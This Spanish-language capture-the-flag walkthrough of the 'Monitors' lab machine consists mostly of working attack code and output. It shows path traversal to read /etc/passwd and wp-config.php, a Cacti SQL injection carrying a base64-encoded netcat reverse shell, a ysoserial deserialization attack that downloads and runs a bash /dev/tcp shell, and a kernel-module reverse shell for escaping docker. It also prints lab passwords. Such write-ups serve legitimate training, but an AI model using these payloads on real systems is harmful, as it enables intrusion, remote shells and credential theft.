




# Monitors

## Enumeración

### Nmap

Realizamos un escaneo con nmap para saber los puertos abiertos en el rango de 1-65536 puertos.

```
# Nmap 7.92 scan initiated Sat Sep 25 09:25:45 2021 as: nmap -p- --open -T5 -v -n -oG allPorts 10.10.10.238
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.238 () Status: Up
Host: 10.10.10.238 () Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Sat Sep 25 09:26:04 2021 -- 1 IP address (1 host up) scanned in 18.49 seconds
```

|              |                                                                              |
| ------------ | ---------------------------------------------------------------------------- |
| Bandera      | Descripcion                                                                  |
| -p-          | Escaneo a los 65536 puertos.                                                 |
| --open       | Reporta solo los puertos con estado "open".                                  |
| -T5          | Exploracion a velocidades insanas (lo hago porque es un entorno de pruebas). |
| -v           | Muestra más información sobre el sondeo que se está realizando.              |
| -oG allPorts | Exporta los resultados en un formato Grepable con el nombre de allPorts.     |

Posteriormente verificamos la versión de los servicios en los puertos abiertos y lanzamos los scripts por defecto.

```
# Nmap 7.92 scan initiated Sat Sep 25 09:28:45 2021 as: nmap -sCV -p22,80 -oN targeted 10.10.10.238
Nmap scan report for 10.10.10.238
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
|_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 25 09:28:54 2021 -- 1 IP address (1 host up) scanned in 8.96 seconds
```

|         |                                                                         |
| ------- | ----------------------------------------------------------------------- |
| Bandera | Descripción                                                             |
| -p22,80 | Escaneo a los puertos 22 y 80.                                          |
| -sC     | Escanea con los scripts por defecto.                                    |
| -sV     | Intenta determinar la versión del servicio que se ejecuta en el puerto. |
| -oN     | Exporta los resultados en un formato nmap.                              |

### Web

Verificamos el contenido web, pero no podemos acceder directamente.

>)

Probamos agregando el dominio a /etc/hosts.

`echo "10.10.10.238 monitors.htb" >> /etc/hosts`

Volvemos a ingresar, podemos darnos cuenta en la parte inferior derecha que se trata de un sitio en Wordpress.



Hice fuzzing pero nada relevante.

```
gobuster dir -u http://monitors.htb/ -w ~/Pentesting/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -k -q
/wp-content (Status: 301) [Size: 317] [--> http://monitors.htb/wp-content/]
/wp-includes (Status: 301) [Size: 318] [--> http://monitors.htb/wp-includes/]
/wp-admin (Status: 301) [Size: 315] [--> http://monitors.htb/wp-admin/] wp
/server-status (Status: 403) [Size: 277]
```

Utilice wpscan para realizar un escaneo para verificar si hay alguna vulnerabilidad. No hay mucho información, pero hay un plugin algo desactualizado.

❯`wpscan --url http://monitors.htb/`

>)

## Punto de acceso

Realizando una búsqueda podemos encontrar que este plugin es vulnearable, se trata de un Local File Inclusion o Remote File Inculsion.


Aquí podemos ver las diferencias.




Basta con ver el ejemplo mostrado para ver como realizarlo. En este caso leemos el recurso /etc/passwd

`http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/passwd`


Lo más interesante de aquí es el usuario.

```
marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
```

Leemos el archivo de configuración de WordPress para obtener más información. El archivo wp-config actúa como mediador entre WordPress y la base de datos. Es un archivo extremadamente importante, por lo tanto es de nuestro interes.


Lectura para conocer la estructura de archivos de WordPress


`view-source:http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../var/www/wordpress/wp-config.php`

>)

Pero el password si es distinto al del login, probé con los nombres de usuario potenciales pero no funciono.

>)

### Enumerando el sistema mediante LFI

Bueno, ahora debemos de seguir enumerando, recordando que la vulnerabilidad dependiendo de que archivos podamos leer podemos obtener RCE. Estos recursos pueden ser de ayuda.







Aquí podemos ver tareas que se están ejecutando.

`view-source:http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../proc/sched_debug`

Como información importante podemos ver que la web esta montada en docker.



En /proc/net/fib\_trie podemos obtener informacion sobre direcciones IP de las interfaces.

```
❯ curl -s "monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../proc/net/fib_trie" | grep -i "host local" -B 1 | grep -oP '\d{1,3}.\d{1,3}.\d{1,3}.\d{1,3}' | sort -u
10.10.10.238
127.0.0.1
172.17.0.1
172.18.0.1
```

En /proc/net/tcp también podemos obtener los puertos que están abiertos. Utilizando Bash podemos hacerlo de esta manera, podemos listar servicios que solo están disponibles de forma local, solo que debemos de saber que los puertos están indicados en formato hexadecimal, solo tendremos que hacer la conversion.

```
❯ for port in $(curl -s "monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../proc/net/tcp" | awk '{print $2}' | grep -v "local_addres" | awk '{print $2}' FS=":" | sort -u); do echo "[$port] -> Puerto $(echo "ibase=16; $port" | bc)"; done
[0016] -> Puerto 22
[0035] -> Puerto 53
[0CEA] -> Puerto 3306
[20FB] -> Puerto 8443
[C732] -> Puerto 50994
```

En /proc/self/fd/ contiene una entrada para cada archivo que el proceso tiene abierto, nombrado por su descriptor de archivo, y que es un enlace simbólico al archivo real. Por lo tanto, 0 es entrada estándar, 1 salida estándar, 2 error estándar, etc. Podemos ir iterando hasta encontrar una entrada. Vemos que en la entrada 10 hay respuesta, y podemos ver logs, si no mal recuerdo son logs de un apache.

```
❯ for i in {1..20}; do echo "[*] Entrada: $i";curl -s "http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../proc/self/fd/$i" ; done
[*] Entrada: 1
[*] Entrada: 2
[*] Entrada: 3
[*] Entrada: 4
[*] Entrada: 5
[*] Entrada: 6
[*] Entrada: 7
[*] Entrada: 8
[*] Entrada: 9
[*] Entrada: 10
10.10.14.4 - - [25/Sep/2021:19:54:30 +0000] "GET /cacti/include/themes/modern/images/ui-bg_glass_75_dadada_1x400.png HTTP/1.1" 200 510
10.10.14.4 - - [25/Sep/2021:19:54:31 +0000] "POST /cacti/index.php HTTP/1.1" 302 709
10.10.14.4 - - [25/Sep/2021:19:54:31 +0000] "GET /cacti/index.php HTTP/1.1" 200 4832
10.10.14.4 - - [25/Sep/2021:19:54:33 +0000] "GET /cacti/index.php?csrf_timeout=true HTTP/1.1" 200 4859
10.10.14.4 - - [25/Sep/2021:19:54:34 +0000] "GET /cacti/include/themes/modern/images/ui-icons_888888_256x240.png HTTP/1.1" 200 7249
10.10.14.4 - - [25/Sep/2021:19:54:35 +0000] "GET /cacti/include/themes/modern/images/ui-bg_highlight-soft_75_cccccc_1x100.png HTTP/1.1" 200 528
10.10.14.4 - - [25/Sep/2021:19:54:39 +0000] "GET /cacti/include/themes/modern/images/ui-icons_454545_256x240.png HTTP/1.1" 200 7242
10.10.14.4 - - [25/Sep/2021:19:54:50 +0000] "POST /cacti/index.php HTTP/1.1" 302 639
10.10.14.4 - - [25/Sep/2021:19:54:50 +0000] "GET /cacti/index.php HTTP/1.1" 200 6088
10.10.14.4 - - [25/Sep/2021:19:54:51 +0000] "GET /cacti/include/themes/modern/images/tab_tree.gif HTTP/1.1" 200 1114
10.10.14.4 - - [25/Sep/2021:19:54:51 +0000] "GET /cacti/include/themes/modern/images/tab_preview.gif HTTP/1.1" 200 1113
10.10.14.4 - - [25/Sep/2021:19:54:51 +0000] "GET /cacti/include/themes/modern/images/tab_list.gif HTTP/1.1" 200 1098
10.10.14.4 - - [25/Sep/2021:19:54:51 +0000] "GET /cacti/images/bullet_arrow_up.png HTTP/1.1" 200 448
10.10.14.4 - - [25/Sep/2021:19:54:51 +0000] "GET /cacti/images/shadow_gray.gif HTTP/1.1" 200 336
10.10.14.4 - - [25/Sep/2021:19:54:52 +0000] "GET /cacti/include/fa/webfonts/fa-solid-900.woff2 HTTP/1.1" 200 44294
10.10.14.4 - - [25/Sep/2021:19:54:52 +0000] "GET /cacti/include/fa/webfonts/fa-brands-400.woff2 HTTP/1.1" 200 55370
10.10.14.4 - - [25/Sep/2021:19:55:11 +0000] "GET /cacti/index.php?csrf_timeout=true HTTP/1.1" 200 6155
10.10.14.4 - - [25/Sep/2021:19:55:15 +0000] "GET /cacti/images/bullet_arrow_down.png HTTP/1.1" 200 448
10.10.14.4 - - [25/Sep/2021:19:55:17 +0000] "GET /cacti/logout.php HTTP/1.1" 302 824
10.10.14.4 - - [25/Sep/2021:19:55:18 +0000] "GET /cacti/index.php HTTP/1.1" 200 4841
10.10.14.4 - - [25/Sep/2021:19:56:16 +0000] "POST /cacti/index.php HTTP/1.1" 302 639
10.10.14.4 - - [25/Sep/2021:19:56:17 +0000] "GET /cacti/index.php HTTP/1.1" 200 6087
10.10.14.4 - - [25/Sep/2021:20:04:59 +0000] "GET /cacti/index.php HTTP/1.1" 200 4917
10.10.14.4 - - [25/Sep/2021:20:05:01 +0000] "POST /cacti/index.php HTTP/1.1" 302 675
10.10.14.4 - - [25/Sep/2021:20:05:01 +0000] "GET /cacti/index.php HTTP/1.1" 200 6124

```

Antes de avanzar mas podemos automatizar un poco este proceso, podemos descargar una wordlist relacionada a local file inclusion. Y comprobar los resultados de manera mas rapida, el script es sencillo pero nos ayudara a identificar mas rapido posibles lecturas.

```python
import requests

def scan():
    with open("payload.txt") as file:
        for line in file:
            burp0_url = "http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..{}".format(line.rstrip())
            burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
            response = requests.get(url=burp0_url, headers=burp0_headers)
            if len(response.text) > 0 :
                print("[*] URL: {}\n[*] Archivo: {} [*] Contenido: {}\n\n".format(burp0_url,line.replace("\n",""),len(response.text)))

def main():
    scan()

if __name__ == "__main__":
    main()
```

Siguendo con lo otro, pense que era un subdirectorio, pero no fue asi.

>)

Visualizamos el contenido de /etc/apache2/sites-available/000-default.conf vemos tiene comentarios sobre dos rutas.



```
❯ curl -s "http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/apache2/sites-available/000-default.conf"
# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf

<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin admin@monitors.htb
        DocumentRoot /var/www/html
        Redirect 403 /
        ErrorDocument 403 "Sorry, direct IP access is not allowed. <br><br>If you are having issues accessing the site then contact the website administrator: admin@monitors.htb"
        UseCanonicalName Off
        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

### Enumerando el nuevo dominio

La agregamos a /etc/hosts

`echo "10.10.10.238 cacti-admin.monitors.htb" >> /etc/hosts`

Ahora podemos visitar el login.

>)

Hasta ahorita la única contraseña que habíamos obtenido era la que estaba en wp-config.php. Ingresamos sesión con admin y BestAdministrator@2020!

Lo siguiente fue buscar alguna vulnerabilidad para esta versión 1.2.12, pero que como requisito tengas que estar autenticado es decir, tener usuario y contraseña. El siguiente enlace es una inyección SQL.



En el código podemos ver como lo hace, remplazaré la variable rshell por el siguiente contenido, me gusta más hacerlo así.

`echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC41MSA3Nzc3ID4vdG1wL2Y=|base64 -d|bash`

>)

Ejemplo de como podemos explotarla.

* [http://cacti-admin.monitors.htb/cacti/color.php?action=export\&header=false\&filter=1](http://cacti-admin.monitors.htb/cacti/color.php?action=export\&header=false\&filter=1)')+UNION+SELECT+1,username,password,4,5,6,7+from+user\_auth;update+settings+set+value='echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxMC4xMC4xNC41MSA3Nzc3ID4vdG1wL2Y=|base64 -d|bash;'+where+name='path\_php\_binary';--+-

Y para finalizar debemos hacer una petición al siguiente enlace, nada más deberíamos de ponernos en escucha primero.:

* http://cacti-admin.monitors.htb/cacti/host.php?action=reinde

## Movimiento lateral

### Del usuario www-data a marcus

Enumerando el sistema de forma manual podemos ver que hay un posible backup, hay un archivo con el nombre de backup en /etc/systemd/system/cacti-backup.service por lo tanto es un servicio y podría estar ejecutándose cada cierto tiempo.

[https://www.linux.com/training-tutorials/understanding-and-using-systemd/](https://www.linux.com/training-tutorials/understanding-and-using-systemd/)

```
❯ find / -name "*cacti*" 2>/dev/null
/etc/apache2/sites-available/cacti-admin.monitors.htb.conf
/etc/apache2/sites-enabled/cacti-admin.monitors.htb.conf
/etc/systemd/system/cacti-backup.service
/lib/systemd/system/cacti-backup.service
/var/log/cacti-access.log
/var/log/cacti-error.log
/var/lib/apache2/site/enabled_by_admin/cacti-admin.monitor.htb
/var/lib/apache2/site/enabled_by_admin/cacti-admin.monitors.htb
/usr/share/cacti
/usr/share/cacti/cacti
/usr/share/cacti/cacti/log/cacti.log
/usr/share/cacti/cacti/locales/po/cacti.pot
/usr/share/cacti/cacti/scripts/cacti_user_stats.php
/usr/share/cacti/cacti/include/cacti_version
/usr/share/cacti/cacti/include/themes/paper-plane/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/paper-plane/images/cacti_logo.svg
/usr/share/cacti/cacti/include/themes/dark/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/dark/images/cacti_backdrop.gif
/usr/share/cacti/cacti/include/themes/dark/images/cacti_backdrop2.gif
/usr/share/cacti/cacti/include/themes/dark/images/cacti_logo.svg
/usr/share/cacti/cacti/include/themes/sunrise/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/sunrise/images/cacti_logo.svg
/usr/share/cacti/cacti/include/themes/classic/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/classic/images/cacti_logo.svg
/usr/share/cacti/cacti/include/themes/paw/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/paw/images/cacti_logo.svg
/usr/share/cacti/cacti/include/themes/modern/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/modern/images/cacti_logo.svg
/usr/share/cacti/cacti/images/cacti_logo.gif
/usr/share/cacti/cacti/images/cacti_logo_new.gif
/usr/share/cacti/cacti/images/cacti_backdrop.gif
/usr/share/cacti/cacti/images/cacti_backdrop2.gif
/usr/share/cacti/cacti/images/cacti_error_image.png
/usr/share/cacti/cacti/images/cacti_logo.svg
/usr/share/cacti/cacti/images/cacti_about_logo.gif
/usr/share/cacti/cacti/images/tab_cacti.gif
/usr/share/cacti/cacti/cacti.sql
/usr/share/cacti/cacti/cli/install_cacti.php
/usr/share/cacti/cacti/formats/cacti_group.format
/usr/share/cacti/cacti/formats/cacti_group_dark.format
/usr/share/cacti/cacti/formats/cacti_monitor.formatfind / -name "*cacti*" 2>/dev/null
/etc/apache2/sites-available/cacti-admin.monitors.htb.conf
/etc/apache2/sites-enabled/cacti-admin.monitors.htb.conf
/etc/systemd/system/cacti-backup.service
/lib/systemd/system/cacti-backup.service
/var/log/cacti-access.log
/var/log/cacti-error.log
/var/lib/apache2/site/enabled_by_admin/cacti-admin.monitor.htb
/var/lib/apache2/site/enabled_by_admin/cacti-admin.monitors.htb
/usr/share/cacti
/usr/share/cacti/cacti
/usr/share/cacti/cacti/log/cacti.log
/usr/share/cacti/cacti/locales/po/cacti.pot
/usr/share/cacti/cacti/scripts/cacti_user_stats.php
/usr/share/cacti/cacti/include/cacti_version
/usr/share/cacti/cacti/include/themes/paper-plane/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/paper-plane/images/cacti_logo.svg
/usr/share/cacti/cacti/include/themes/dark/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/dark/images/cacti_backdrop.gif
/usr/share/cacti/cacti/include/themes/dark/images/cacti_backdrop2.gif
/usr/share/cacti/cacti/include/themes/dark/images/cacti_logo.svg
/usr/share/cacti/cacti/include/themes/sunrise/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/sunrise/images/cacti_logo.svg
/usr/share/cacti/cacti/include/themes/classic/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/classic/images/cacti_logo.svg
/usr/share/cacti/cacti/include/themes/paw/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/paw/images/cacti_logo.svg
/usr/share/cacti/cacti/include/themes/modern/images/cacti_logo.gif
/usr/share/cacti/cacti/include/themes/modern/images/cacti_logo.svg
/usr/share/cacti/cacti/images/cacti_logo.gif
/usr/share/cacti/cacti/images/cacti_logo_new.gif
/usr/share/cacti/cacti/images/cacti_backdrop.gif
/usr/share/cacti/cacti/images/cacti_backdrop2.gif
/usr/share/cacti/cacti/images/cacti_error_image.png
/usr/share/cacti/cacti/images/cacti_logo.svg
/usr/share/cacti/cacti/images/cacti_about_logo.gif
/usr/share/cacti/cacti/images/tab_cacti.gif
/usr/share/cacti/cacti/cacti.sql
/usr/share/cacti/cacti/cli/install_cacti.php
/usr/share/cacti/cacti/formats/cacti_group.format
/usr/share/cacti/cacti/formats/cacti_group_dark.format
/usr/share/cacti/cacti/formats/cacti_monitor.format
```

Verificamos el contenido, podemos ver una referencia a un script.

```
$ cat /etc/systemd/system/cacti-backup.service
[Unit]
Description=Cacti Backup Service
After=network.target

[Service]
Type=oneshot
User=www-data
ExecStart=/home/marcus/.backup/backup.sh

[Install]
WantedBy=multi-user.target
```

En él se encuentra un password, sshpass permite introducir de forma no interactiva, ya que al ser un script, se tiene que hacer de forma automática. Pero esto es una mala práctica ya que directamente exponemos el password.

```
$ cat /home/marcus/.backup/backup.sh
#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```

### Del usuario marcus a root (en docker)

También habia una nota, que nos confirma que se está usando docker.

```
$ cat note.txt
TODO:

Disable phpinfo in php.ini - DONE
Update docker image for production use -
```

Recordando la información extraída en el lfi.

\[0016] -> Puerto 22

\[0035] -> Puerto 53

\[0CEA] -> Puerto 3306

\[20FB] -> Puerto 8443

\[C732] -> Puerto 50994

Podemos comprobar los resultados, vemos que en el puerto 8443, en efecto esta abierto.

```
$ netstat -putan | grep LISTEN
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
tcp 0 0 127.0.0.1:3306 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8443 0.0.0.0:* LISTEN -
tcp6 0 0 :::80 :::* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
```

Verificando los procesos podemos ver que se trata de un proxy.



```
$ ps aux | grep 8443
root 2068 0.0 0.2 776100 9188 ? Sl Oct09 0:06 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443
marcus 15194 0.0 0.0 13144 1016 pts/1 S+ 03:25 0:00 grep --color=auto 8443
```

#### Local port forwarding



Lo que necesitamos hacer es exponer el puerto remoto de forma local, podemos hacerlo de la siguiente manera:

ssh -L 8443:127.0.0.1:8443 marcus@10.10.10.238 -fN

Si nos vamos a la web pero ahora por HTTPS obtenemos lo siguiente.


Como sabes que es un servicio http, podemos hacer fuzzing en el puerto 8443.

```
gobuster dir -u https://localhost:8443/ -w ~/Pentesting/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -k -q
/images (Status: 302) [Size: 0] [--> /images/]
/content (Status: 302) [Size: 0] [--> /content/]
/common (Status: 302) [Size: 0] [--> /common/]
/catalog (Status: 302) [Size: 0] [--> /catalog/]
/marketing (Status: 302) [Size: 0] [--> /marketing/]
/ecommerce (Status: 302) [Size: 0] [--> /ecommerce/]
/ap (Status: 302) [Size: 0] [--> /ap/]
/ar (Status: 302) [Size: 0] [--> /ar/]
/ebay (Status: 302) [Size: 0] [--> /ebay/]
/manufacturing (Status: 302) [Size: 0] [--> /manufacturing/]
/passport (Status: 302) [Size: 0] [--> /passport/]
/example (Status: 302) [Size: 0] [--> /example/]
/bi (Status: 302) [Size: 0] [--> /bi/]
/accounting (Status: 302) [Size: 0] [--> /accounting/]
/webtools (Status: 302) [Size: 0] [--> /webtools/]
/tomahawk (Status: 302) [Size: 0] [--> /tomahawk/]
/facility (Status: 302) [Size: 0] [--> /facility/]
/http%3A%2F%2Fwww (Status: 400) [Size: 804]
/myportal (Status: 302) [Size: 0] [--> /myportal/]
/sfa (Status: 302) [Size: 0] [--> /sfa/]
```

Si visitamos https://localhost:8443/sfa podemos ver que nos redirige a /sfa/control/main un login. No tenemos credenciales y tampoco parece que haya que explotar alguna vulneabilidad de forma manual.



Si buscamos información sobre la versión podemos encontrarnos que tiene una vulnerabilidad en este caso una deserializacion inseguravia via XMLRPC.



En github encontre esta poc.



Antes de avanzar descarge el java.

* sudo pacman -S jdk8-openjdk
* archlinux-java status
* sudo archlinux-java set java-8-openjdk

Después tengo que volver a cambiar de version porque sino burpsuite no sirve….

Siguiendo los pasos debemos de realizar lo siguiente.

Paso 1: tener un archivo con la shell.

```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.14.32/8001 0>&1
```

Paso 2: Abrir un servidor http.

`sudo python3 -m http.server 80`

Paso 3: Generar el payload via ysoserial JAR.

`java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "wget http://10.10.14.64/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n" | xclip -sel clip`

Paso 4: Ejecutar payload, se debe de pegar después de extensions”>, esto lo que hara es descargar el payload en el servidor.

`curl https://127.0.0.1:8443/webtools/control/xmlrpc -X POST -v -d '<?xml version="1.0"?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions"></serializable></value></member></struct></value></param></params></methodCall>' -k -H 'Content-Type:application/xml'`

Aquí vemos que se realizó la petición.



Paso 5: Debemos generar el payload de la ejecución del payload que descargamos en el servidor.

`java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "bash /tmp/shell.sh" | base64 | tr -d "\n" | xclip -sel clip`

Paso 6: ponernos en escucha

`nc -lvnp 7777`

Paso 7: Realizar petición.

`curl https://127.0.0.1:8443/webtools/control/xmlrpc -X POST -v -d '<?xml version="1.0"?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions"></serializable></value></member></struct></value></param></params></methodCall>' -k -H 'Content-Type:application/xml'`

Vemos que hemos obtenido la conexión.


## Docker Breakout

Como se había dicho anteriormente, estamos en un docker por lo tanto toca escapar. Solo para verificar podemos hacer lo siguiente, existen distantas formas de escapar pero todo depende de la configuracion.

root@36c85316bf9e:/tmp# `grep -i docker /proc/self/cgroup 2>/dev/null; find / -name "*dockerenv*" -exec ls -la {} \; 2>/dev/null`

```
12:hugetlb:/docker/36c85316bf9eec1e078b242800e00b75bf0a268677a322bb897a58b234eeddc9
11:devices:/docker/36c85316bf9eec1e078b242800e00b75bf0a268677a322bb897a58b234eeddc9
10:pids:/docker/36c85316bf9eec1e078b242800e00b75bf0a268677a322bb897a58b234eeddc9
9:cpu,cpuacct:/docker/36c85316bf9eec1e078b242800e00b75bf0a268677a322bb897a58b234eeddc9
8:blkio:/docker/36c85316bf9eec1e078b242800e00b75bf0a268677a322bb897a58b234eeddc9
7:freezer:/docker/36c85316bf9eec1e078b242800e00b75bf0a268677a322bb897a58b234eeddc9
5:cpuset:/docker/36c85316bf9eec1e078b242800e00b75bf0a268677a322bb897a58b234eeddc9
4:memory:/docker/36c85316bf9eec1e078b242800e00b75bf0a268677a322bb897a58b234eeddc9
3:perf_event:/docker/36c85316bf9eec1e078b242800e00b75bf0a268677a322bb897a58b234eeddc9
2:net_cls,net_prio:/docker/36c85316bf9eec1e078b242800e00b75bf0a268677a322bb897a58b234eeddc9
1:name=systemd:/docker/36c85316bf9eec1e078b242800e00b75bf0a268677a322bb897a58b234eeddc9
```

Enumerando el sistema podemos ver que en capabilities tiene habilitado cap\_sys\_module.

```
# capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

Podemos consultar los siguientes enlaces para saber mas.

{% embed url="https://blog.nody.cc/posts/container-breakouts-part2#:~:text=CAP_SYS_Module%20%E2%80%93%20Load%20Kernel%20Module" %}



Para ello vamos a necesitar la ip de la interface que tiene comunicacion con el usuario marcus, la 172.17.0.2

```
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

### CAP\_SYS\_Module – Load Kernel Module

En este archivo debemos de poner al direccion ip de la interface y un puerto, la conexion llegara a traves del usuario marcus.

```
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.2/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

Aqui realice una pequena moficicacion porque no compilaba, lo compile con la version exacta del kernel.


```
obj-m +=reverse-shell.o
all:
make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) modules
clean:
make -C /lib/modules/4.15.0-142-generic/build M=$(PWD) clean
```

Nos debemos de transferir el archivo .c y también el archivo Makefile. Yo agregue al path /usr/lib/gcc/x86\_64-linux-gnu/8/, ya que no compilaba.

* export PATH=$PATH:/usr/lib/gcc/x86\_64-linux-gnu/8/gitbook
* make clean
* make

Verificar que no haya un módulo cargado con el mismo nombre.

`lsmod | grep reverse`

En caso de que exista, lo eliminamos.

`rmmod reverse-shell.ko`

Y ahora lo cargamos, si estamos en escucha recibiremos la conexión.

`insmod reverse-shell.ko`

Con esto ya habriamos terminado y escapariamos del docker y seriamos usuario root pero a nivel de sistema.


\`
